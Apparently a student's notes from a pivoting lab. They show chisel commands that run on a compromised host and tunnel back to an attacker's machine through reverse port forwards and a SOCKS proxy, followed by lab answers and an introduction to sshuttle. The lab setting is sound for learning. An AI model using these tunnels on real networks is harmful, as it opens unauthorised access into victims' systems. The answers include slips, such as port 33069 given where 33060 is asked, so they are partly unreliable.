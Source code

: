Once again this sets up a chisel listener for the compromised host to connect back to.
The command to connect back is slightly different this time, however:
`./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &`

```
./chisel server -p 1337 --reverse & 
./chisel client 172.16.0.20:1337 R:2222:172.16.0.10:22 &

./chisel server -p 1337 --reverse &
./chiselhack client 10.50.82.110:1337 R:8081:10.200.81.150:80
```


### Local Port Forward:
As with SSH, a local port forward is where we connect from our own attacking machine to a chisel server listening on a compromised target.

On the compromised target we set up a chisel server:
`./chisel server -p LISTEN_PORT`

We now connect to this from our attacking machine like so:
`./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT`

For example, to connect to 172.16.0.5:8000 (the compromised host running a chisel server), forwarding our local port 2222 to 172.16.0.10:22 (our intended target), we could use:
`./chisel client 172.16.0.5:8000 2222:172.16.0.10:22`

**Answer the questions below**

- What command would you use to start a chisel server for a reverse connection on your attacking machine? Use port 4242 for the listener and **do not** background the process.
`./chisel server -p 4242  --reverse`

- What command would you use to connect back to this server with a SOCKS proxy from a compromised host, assuming your own IP is 172.16.0.200 and backgrounding the process?
`./chisel client 172.16.0.200:4242 r:socks`

- How would you forward 172.16.0.100:3306 to your own port 33060 using a chisel remote port forward, assuming your own IP is 172.16.0.200 and the listening port is 1337? Background this process.
`./chisel client 172.16.0.200:1337 R:33069:172.16.0.100:3306 &`

- If you have a chisel server running on port 4444 of 172.16.0.5, how could you create a local portforward, opening port 8000 locally and linking to 172.16.0.10:80?
`./chisel client 172.16.0.5:4444 8000:172.16.0.10:80`


## sshuttlee

This tool is quite different from the others we have covered so far. It doesn't perform a port forward, and the proxy it creates is nothing like the ones we have already seen. 

Instead it uses an SSH connection to create a tunnelled proxy that acts like a new interface. In short, it simulates a VPN, allowing us to route our traffic through the proxy _without the use of proxychains_ (or an equivalent). 

We can just directly connect to devices in the target network as we would normally connect to networked devices. As it creates a tunnel through SSH (the secure shell), anything we send through the tunnel is also encrypted, which is a nice bonus. We use sshuttle entirely on our attacking machine, in much the same way we would SSH into a remote server.
